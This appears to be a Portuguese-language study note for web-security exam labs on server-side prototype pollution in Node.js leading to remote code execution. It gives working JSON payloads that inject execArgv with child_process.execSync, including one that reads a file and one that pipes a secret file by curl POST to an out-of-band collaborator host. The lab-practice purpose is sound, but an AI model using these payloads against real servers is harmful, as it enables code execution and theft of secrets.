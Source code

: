 # SSPP - Server Side Prototype Pollution

Probabilidade: $${\color{lightblue}baíxissima}$$.

<br>

Separei esse Prototype Pollution do que está na Etapa 2 para evitar confusão, mas basicamente é igual o Server-Side que está lá mas com objetivo de RCE.

<br>

## Laboratórios

**Remote Code Execution via Server-Side Prototype Pollution**
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('cat /home/carlos/morale.txt')"
    ]
}
```

> [!CAUTION]
> O comando acima foi trocado de 'rm' para 'cat' de propósito, para evitar que você copie o comando e delete o arquivo secret do exame. Nos laboratórios, de fato você precisará usar o comando 'rm'.

<br>

Se você quer testar a execução do comando:
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://OASTIFY.COM')"
    ]
}
```

<br>

Versão adaptada:
```
"__proto__": {
    "execArgv": [
        "--eval=require('child_process').execSync('cat /home/carlos/secret | curl -X POST --data-binary @- http://xuvdjpko5xqmt5y70ln82cejbah15xtm.oastify.com')"
    ]
}
```
